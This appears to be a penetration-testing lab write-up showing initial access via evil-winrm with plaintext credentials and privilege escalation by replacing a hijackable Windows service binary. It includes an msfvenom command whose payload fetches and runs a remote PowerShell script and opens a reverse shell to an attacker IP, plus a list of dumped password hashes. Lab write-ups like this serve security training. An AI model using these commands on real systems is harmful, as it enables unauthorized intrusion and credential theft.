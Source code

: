 - Using `evil-winrm` as `wario` will give initial access. Run `proxychains evil-winrm -i 172.16.226.83 -u wario -p Mushroom!`![[Pasted image 20240217200616.png]]
# PrivEsc
- `winpeas` will identify a hijackable service binary.![[Pasted image 20240217202034.png]]
- Running `services` in `evil-winrm`  session, will identify that `auditTracker` is indeed a privileged service.![[Pasted image 20240217202336.png]]
- Replace the binary with the malicious payload generate with `msfvenom -p windows/x64/exec -f exe -o auditTracker.exe CMD="powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.229/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.229 443"`.
	- Restart the service with `Restart-Services -Name auditTracker` to receive a reverse shell callback. (Note: it's OK that restart fails but we get a reverse shell)
# Loot
- `Administrator`: 00fd074ec24fd70c76727ee9b2d7aacd
- `offsec`: 2892d26cdf84d7a70e2eb3b9f05c425e